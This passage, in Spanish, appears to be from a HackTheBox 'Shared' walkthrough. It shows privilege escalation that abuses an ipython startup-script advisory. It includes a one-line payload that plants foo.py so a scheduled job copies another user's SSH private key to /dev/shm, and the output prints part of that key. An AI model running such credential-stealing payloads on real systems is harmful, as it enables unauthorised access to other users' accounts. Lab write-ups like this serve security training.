 - Pero bueno poca cosa vamos a hacer vamos a usar `pspy` para ver tareas que se estén ejecutando en el sistema <https://github.com/DominicBreuker/pspy/releases>.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/shared/16.png">
</p>

- Ahora lo ejecutamos.

- Esta usando `ipython` y se mete ala ruta donde estábamos <https://es.wikipedia.org/wiki/IPython>.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/shared/17.png">
</p>

- Si investigamos encontramos como podemos abusar de `ipython` <https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x>.

- Vamos a seguir el `Proof of concept` primeros vamos a crearnos un directorio después dentro del directorio `profile_default` crea otro directorio con el nombre `startup` y después crea un `script` con nombre `foo.py` y le mete contenido y podemos decirle que como el usuario que queremos convertirnos esta corriendo el proceso pues que cuando se inicie se ejecuta el script y nos de clave `id_rsa` y no la ponga en una ruta del sistema para poder conectarnos por `SSH` con ese usuario.

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default && mkdir -m 777 profile_default/startup && echo 'import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")' > profile_default/startup/foo.py
```

- Ahora vamos a esperar que se ejecute la tarea para ver la `id_rsa`.

```bash
james_mason@shared:/opt/scripts_review$ ls -l /dev/shm/; cat key
total 3036
-rw-r--r-- 1 dan_smith   dan_smith      2602 May 26 16:22 key
-rwxr-xr-x 1 james_mason james_mason 3104768 May 26 15:54 pspy64
cat: key: No such file or directory
james_mason@shared:/opt/scripts_review$ ls -l /dev/shm/; cat /dev/shm/key
james_mason@shared:/opt/scripts_review$ ls -l /dev/shm/; cat /dev/shm/key
total 3036
-rw-r--r-- 1 dan_smith   dan_smith      2602 May 26 16:22 key
-rwxr-xr-x 1 james_mason james_mason 3104768 May 26 15:54 pspy64
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx
FHAVThRwfKb4Qh2l9rXGtK6G05+DXWj+OAe/Q34gCMgFG4h3mPw7tRz2plTRBQfgLcrvVD
oQtePOEc/XuVff+kQH7PU9J1c0F/hC7gbklm2bA8YTNlnCQ2Z2Z+HSzeEXD5rXtCA69F4E
u1FCodLROALNPgrAM4LgMbD3xaW5BqZWrm24uP/lAAAFiPY2n2r2Np9qAAAAB3NzaC1yc2
```